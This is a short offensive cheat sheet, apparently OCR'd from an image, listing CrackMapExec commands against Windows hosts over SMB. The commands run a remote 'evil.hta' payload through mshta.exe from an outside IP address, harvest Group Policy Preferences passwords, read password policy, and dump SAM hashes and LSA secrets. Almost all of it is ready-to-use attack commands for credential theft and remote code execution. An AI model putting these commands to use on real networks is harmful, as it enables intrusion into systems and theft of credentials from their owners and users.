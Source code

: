 - Execute HTA:
	- `cme smb IP_ADDRESS -u USERNAME -p 'PASSWORD' -x ‘mshta.exe http://10.6.190.60/evil.hta’`
- Get GPP policies
	- `cme smb DC_IPAddress -u ‘’ -p ‘’ -M gpp_autologin`
	- `cme smb DC_IPAddress -u ‘’ -p ‘’ -M gpp_password`
- Get password policy
	- `cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --pass-pol`
- Dump SAM
	- `cme smb IPADDRESS -u UserName -p 'PASSWORDHERE' --sam`
- Dump LSA secrets
	- `cme smb IPADDRESS -u UserName -p 'PASSWORDHERE' --lsa`